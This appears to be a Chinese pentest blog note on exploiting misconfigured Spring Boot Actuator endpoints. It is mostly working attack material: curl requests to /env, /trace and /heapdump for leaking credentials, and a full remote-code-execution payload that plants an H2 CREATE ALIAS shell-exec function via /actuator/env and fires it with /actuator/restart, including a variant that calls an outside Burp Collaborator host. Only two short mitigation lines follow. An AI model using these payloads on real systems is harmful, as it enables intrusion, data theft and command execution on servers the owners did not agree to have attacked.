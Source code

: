 ```yaml
---
top:                                 #是否置顶，值越大，越靠顶部
title: Spring                  # 文章标题
date: 15/12/2020                     # 文章写作日期

encrypt: false                       # 是否加密
enc_pwd: askding                     # 加密密码

categories:                          # 文章分类
    - Kali
    - Exploit

tags:                                # 文章标签

layout:   # 默认布局post,可选draft
---
```

编写进度
- [x] 



推荐资料：
- [SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit)
- [Spring 框架漏洞集合](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)
- [Spring Boot Actuator H2 RCE复现](https://www.cnblogs.com/cwkiller/p/12829974.html)


- [Spring Boot Actuator(eureka xstream deserialization RCE)](https://www.jianshu.com/p/91a5ca9b7c1c)

**Spring** 是为解决企业应用开发的复杂性而创建的一个开源框架。
	主要的设计思想是有两个：
- `控制反转IOC` 
IOC是一种设计思想，将原本在程序中自己手动创建对象的控制权，交由 Spring 框架来管理。
- `面向方面编程AOP` 
利用一种称为"横切"的技术，剖解开封装的对象内部，并将那些影响了多个类的公共行为封装到一个可重用模块，并将其命名为"Aspect"，即切面。

## 信息收集
```zsh
nmap -Pn -T4  -p 8080  -sV --version-all 192.168.79.28
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 17:18 CST
Nmap scan report for 192.168.79.28
Host is up (0.00019s latency).

PORT     STATE SERVICE    VERSION
8080/tcp open  http-proxy
```
访问不存在的页面包含以下信息证明使用了Spring Boot
```html
Whitelabel Error Page

This application has no explicit mapping for /error, so you are seeing this as a fallback.
Tue Dec 15 09:35:57 GMT 2020
There was an unexpected error (type=Not Found, status=404).
No message available
```
Spring API信息获取
```zsh
curl -v 'http://192.168.79.28:8080/trace'  # 获取用户认证字段
curl -v 'http://192.168.79.28:8080/env'    # 服务器配置信息，包括数据库
curl -v 'http://192.168.79.28:8080/health'  # 泄漏git项目地址
curl -v 'http://192.168.79.28:8080/heapdump' # 泄漏后台用户信息
curl -v 'http://192.168.79.28:8080/'
curl -v 'http://192.168.79.28:8080/'
curl -v 'http://192.168.79.28:8080/'
curl -v 'http://192.168.79.28:8080/'

## Spring Boot Actuator H2 with HikariCP远程代码执行

**Actuator** 是 Spring Boot 提供的用来对应用系统进行自省和监控的功能模块，借助于 Actuator 开发者可以很方便地对应用系统某些监控指标进行查看、统计等。  

Actuator 配置不当导致应用系统监控信息泄露对应用系统及其用户的危害是巨大的

更多[Spring Boot Rest API](https://howtodoinjava.com/spring-boot2/rest/rest-api-example/)

```zsh
 curl  'http://192.168.79.28:8080/actuator'  # 查看actuator下的端点actuator/env
{"_links":{"self":{"href":"http://192.168.79.28:8080/actuator","templated":false},"env-toMatch":{"href":"http://192.168.79.28:8080/actuator/env/{toMatch}","templated":true},"env":{"href":"http://192.168.79.28:8080/actuator/env","templated":false},"restart":{"href":"http://192.168.79.28:8080/actuator/restart","templated":false}}}%
```
发送EXP
```json
POST /actuator/env HTTP/1.1

content-type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}


POST /actuator/restart HTTP/1.1

content-type: application/json

{}

```

```zsh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl http://x.burpcollaborator.net\');\"}' 'http://192.168.79.28:8080/actuator/env'

#发送exp
curl -X 'POST' -H 'Content-Type: application/json' 'http://192.168.79.28:8080/actuator/restart'   # 触发exp
```





### 安全措施
1. 引入 security 依赖，打开安全限制并进行身份验证
2. 设置单独的 Actuator 管理端口并配置不对外网开放
